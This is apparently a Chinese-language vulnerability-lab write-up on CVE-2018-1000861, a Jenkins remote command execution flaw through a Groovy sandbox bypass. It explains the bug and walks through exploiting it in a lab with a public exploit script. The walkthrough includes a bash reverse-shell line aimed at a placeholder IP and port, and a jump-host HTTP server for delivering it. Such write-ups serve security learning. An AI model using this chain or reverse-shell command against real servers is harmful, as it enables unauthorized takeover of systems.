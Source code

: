 # CVE-2018-1000861（Jekins 远程命令执行）by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 漏洞概述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

首先打开靶场。

![1](./1.png)

因为此漏洞无回显，所以直接用脚本反弹 shell 了，附上下载链接：

`https://github.com/orangetw/awesome-jenkins-rce-2019/`

首先在跳板机上面创建一个 TXT 文档，文档内容为：

`bash -i >& /dev/tcp/IP/port 0>&1`

然后在跳板机上面创建一个 HTTP 服务，命令如下：

`python3 -m http.server`

然后利用脚本去下载 跳板机上面 shell 文档

![2](./2.png)

在你的跳板机上开启监听，端口是刚才 shell 文档里写的端口

![](./4.png)

然后执行 shell 文档

![3](./3.png)

成功反弹，并执行 ls /tmp 查看 Flag

![5](./5.png)

也可以利用 Goby 直接去利用

![6](./6.png)

